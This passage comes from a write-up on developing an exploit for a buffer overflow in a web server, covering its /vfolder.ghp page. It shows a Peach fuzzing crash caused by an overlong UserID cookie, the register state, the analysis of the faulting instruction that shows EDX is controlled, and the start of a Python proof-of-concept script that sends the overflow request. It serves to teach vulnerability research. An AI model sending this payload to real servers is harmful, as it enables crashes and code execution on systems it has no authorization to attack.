 Three of the directories created were labeled EXPLOITABLE, so those should get higher priority in examination. After going through some of the exploitable crash information, I settled on test case  EXPLOITABLE_0x020c616f_0x021e756f\518. 

This is the data Peach sent to the server which triggered the crash:

```
GET /vfolder.ghp HTTP/1.1
User-Agent: Mozilla/4.0
Host: 192.168.1.140:80
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.140/
Cookie: SESSIONID=6771; UserID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA; PassWD=; 
Conection: Keep-Alive
```

The payload Peach used in this test case was a long string of "A"s, and it was assigned to UserID. At this point, PassWD isn't even being fuzzed yet. I looked at the corresponding WindowsDebugEngine_description.txt file to see the state of the registers and the instruction that caused the crash:

```
eax=00000000 ebx=00000000 ecx=018f68f8 edx=41414141 esi=018f68e8 edi=018f68f8
eip=0045c8c2 esp=018f6830 ebp=ffffffff iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
```

EDX was the only one that had been overwritten by the payload. EIP was intact, so what caused the crash? The faulting instruction provided the  answer: 

```
0045c8c2 ff5228          call    dword ptr [edx+28h]  ds:0023:41414169=????????
```

It was attempting to call a function pointed to by EDX+28, and it was crashing because EDX+28 resulted in an invalid address of 0x41414169. This meant I could redirect the execution flow anywhere I wanted to because I controlled the value stored in EDX!


### The beginning of a proof-of-concept exploit

I needed to take this test case used by Peach and convert it into a proof-of-concept (PoC) exploit. I created the following Python script which sent the same request as the test case: 

```python
import socket
import struct

target = "192.168.1.140"
port = 80

payload = "A"*90

buf = (
"GET /vfolder.ghp HTTP/1.1\r\n"
"User-Agent: Mozilla/4.0\r\n"
"Host:" + target + ":" + str(port) + "\r\n"
"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
"Accept-Language: en-us\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"Referer: http://" + target + "/\r\n"
"Cookie: SESSIONID=6771; UserID=" + payload + "; PassWD=;\r\n"
"Conection: Keep-Alive\r\n\r\n"
)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
```